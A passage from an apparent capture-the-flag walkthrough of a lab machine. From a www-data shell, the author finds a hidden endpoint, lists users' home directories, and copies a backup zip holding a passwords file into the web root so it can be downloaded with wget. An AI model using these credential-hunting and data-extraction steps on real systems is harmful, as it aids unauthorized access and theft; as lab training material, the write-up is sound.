But only one is important:
```shell
...SNIPPED...
7f98ca7ba1484c66bf09627f931448053ae6b55a
[Status: 200, Size: 815, Words: 79, Lines: 46]
...SNIPPED...
```
And just out of curiosity, I check that the hash is of the text `aview24`.
When I access `192.168.2.30:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a/`, then I see an `execute` button

![evidence](18-hidden-endpoint.png)

But I do not know what it does, then before pressing it, I continue to check the `/home` directory. When I run:
```shell
www-data@view:/home/max$ ls -la
...SNIPPED...
-rwxrwx--- 1 max      jenny     124 Oct 26  2019 aView.py
-rw-r--r-- 1 scarpine scarpine  553 Oct 26  2019 note.txt
```
Then aside from the note, there is also the `aView.py` file, but I can not read it at least I have the `max` or `jenny` shell.
When I check out `jenny`'s home:
```shell
www-data@view:/home/jenny$ ls -la
total 24
-rw-r--r-- 1 jenny jenny  845 Oct 25  2019 dsktp_backup.zip
```
Then I see the `dsktp_backup.zip` file, and I can read it.
When I copy it to the `dev` webroot:
```shell
www-data@view:/home/jenny$ cp dsktp_backup.zip /var/www/html/dev
```
Then I can download it with the `wget` command:
```shell
$ wget http://192.168.2.30/dev/dsktp_backup.zip
```
When I check the files it contains:
```shell
$ unzip -l dsktp_backup.zip
Archive:  dsktp_backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      104  2019-10-20 14:58   passswords.txt
      669  2019-10-25 19:42   todo.txt
---------                     -------
      773                     2 files
```
Then I can tell the email `Stop_Storing_Passwords` was addressed to `jenny`. When I `unzip` the file:
```shell
$ unzip dsktp_backup.zip
```
Then I can read the files:
